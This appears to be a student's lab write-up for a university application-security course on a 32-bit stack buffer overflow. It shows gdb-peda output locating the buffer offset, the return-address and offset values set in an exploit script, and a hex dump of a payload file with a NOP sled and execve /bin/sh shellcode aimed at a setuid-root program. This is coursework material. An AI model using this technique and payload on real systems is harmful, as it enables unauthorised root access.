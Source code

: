 # 32 bit attack
In screenshot1.png , for first task date is not show as it would expose personal access token please forgive
we succesfully show a local repo is created 
In screenshot2 we show Reports/Artifacts succesfully created for submission. 
In screenshots2.1-2.2 we show commands executed to turn off countermeasures
After typing make on shellcode directory we see the following commands execute 
```
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
```
The output files are visible locally but not on the github repo. 
We run ./a32.out and ./a64.out nothing appears on the terminal, we type exit to return to a functional shell. 
The following is the output from our gdb commands:
```
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run
Starting program: /home/nyuappsec/AppSec1/Part1/code/stack-L1-dbg 
Input size: 0
[----------------------------------registers-----------------------------------]
EAX: 0xffffcb48 --> 0x0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcf30 --> 0xf7fb4000 --> 0x1ead6c 
ESI: 0xf7fb4000 --> 0x1ead6c 
EDI: 0xf7fb4000 --> 0x1ead6c 
EBP: 0xffffcf38 --> 0xffffd168 --> 0x0 
ESP: 0xffffcb2c --> 0x565563ee (<dummy_function+62>:	add    esp,0x10)
EIP: 0x565562ad (<bof>:	endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562a4 <frame_dummy+4>:	jmp    0x56556200 <register_tm_clones>
   0x565562a9 <__x86.get_pc_thunk.dx>:	mov    edx,DWORD PTR [esp]
   0x565562ac <__x86.get_pc_thunk.dx+3>:	ret    
=> 0x565562ad <bof>:	endbr32 
   0x565562b1 <bof+4>:	push   ebp
   0x565562b2 <bof+5>:	mov    ebp,esp
   0x565562b4 <bof+7>:	push   ebx
   0x565562b5 <bof+8>:	sub    esp,0x74
[------------------------------------stack-------------------------------------]
0000| 0xffffcb2c --> 0x565563ee (<dummy_function+62>:	add    esp,0x10)
0004| 0xffffcb30 --> 0xffffcf53 --> 0x456 
0008| 0xffffcb34 --> 0x0 
0012| 0xffffcb38 --> 0x3e8 
0016| 0xffffcb3c --> 0x565563c3 (<dummy_function+19>:	add    eax,0x2bf5)
0020| 0xffffcb40 --> 0x0 
0024| 0xffffcb44 --> 0x0 
0028| 0xffffcb48 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, bof (str=0xffffcf53 "V\004") at stack.c:16
16	{
gdb-peda$ next
[----------------------------------registers-----------------------------------]
EAX: 0x56558fb8 --> 0x3ec0 
EBX: 0x56558fb8 --> 0x3ec0 
ECX: 0x60 ('`')
EDX: 0xffffcf30 --> 0xf7fb4000 --> 0x1ead6c 
ESI: 0xf7fb4000 --> 0x1ead6c 
EDI: 0xf7fb4000 --> 0x1ead6c 
EBP: 0xffffcb28 --> 0xffffcf38 --> 0xffffd168 --> 0x0 
ESP: 0xffffcab0 ("1pUVD\317\377\377\220\325\377\367\340\223\374", <incomplete sequence \367>)
EIP: 0x565562c2 (<bof+21>:	sub    esp,0x8)
EFLAGS: 0x216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x565562b5 <bof+8>:	sub    esp,0x74
   0x565562b8 <bof+11>:	call   0x565563f7 <__x86.get_pc_thunk.ax>
   0x565562bd <bof+16>:	add    eax,0x2cfb
=> 0x565562c2 <bof+21>:	sub    esp,0x8
   0x565562c5 <bof+24>:	push   DWORD PTR [ebp+0x8]
   0x565562c8 <bof+27>:	lea    edx,[ebp-0x6c]
   0x565562cb <bof+30>:	push   edx
   0x565562cc <bof+31>:	mov    ebx,eax
[------------------------------------stack-------------------------------------]
0000| 0xffffcab0 ("1pUVD\317\377\377\220\325\377\367\340\223\374", <incomplete sequence \367>)
0004| 0xffffcab4 --> 0xffffcf44 --> 0x0 
0008| 0xffffcab8 --> 0xf7ffd590 --> 0xf7fd1000 --> 0x464c457f 
0012| 0xffffcabc --> 0xf7fc93e0 --> 0xf7ffd990 --> 0x56555000 --> 0x464c457f 
0016| 0xffffcac0 --> 0x0 
0020| 0xffffcac4 --> 0x0 
0024| 0xffffcac8 --> 0x0 
0028| 0xffffcacc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
20	    strcpy(buffer, str);  
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb28
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcabc
```

Since we want to overflow buffer we need to find the offset between buffer and the top of the stack ebp we do this by.
```
nyuappsec@ubuntu:~$ python3
Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> hex(0xffffcb28-0xffffcabc)
'0x6c' or 108 bits apart in the stack. 
```
In the exploit-32.py file we edit the following values 

```
start = 517-len(shellcode)   # start from len(shellcode) from the end of array
ret = 0xffffcabc + 250       # return beyond ebp / NOP sled
offset = 108 + 4             #ebp-&buffer+4
```
This works because our vulnerable program has a buffer that takes up 108 bytes, we will then read the previous frames pointer and land in the return adress where
it would without the exploit run the existing code. We want to write more than the buffer of 108 bytes to run out malicious code without running code that is already in the stack. Filling it with NOPs allows us to do this. Adding 250 bytes to the buffer gives us plenty of room to land somewhere in the NOP sled to get the return adress we want to execute the malicious code. 
```
--contents of badfile--
00000000  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
*
00000070  b6 cb ff ff 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000080  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
*
000001e0  90 90 90 90 90 90 90 90  90 90 31 c0 50 68 2f 2f  |..........1.Ph//|
000001f0  73 68 68 2f 62 69 6e 89  e3 50 53 89 e1 31 d2 31  |shh/bin..PS..1.1|
00000200  c0 b0 0b cd 80                                    |.....|
00000205
#     
```
stack-L1 is a setuid program 
```
# ls -l stack-L1                                                               
-rwsr-xr-x 1 root nyuappsec 15908 Feb  8 13:44 stack-L1
```
so it will run what is in the buffer, because of the badfile created by the exploit; the program will run the shellcode with root permissions. 
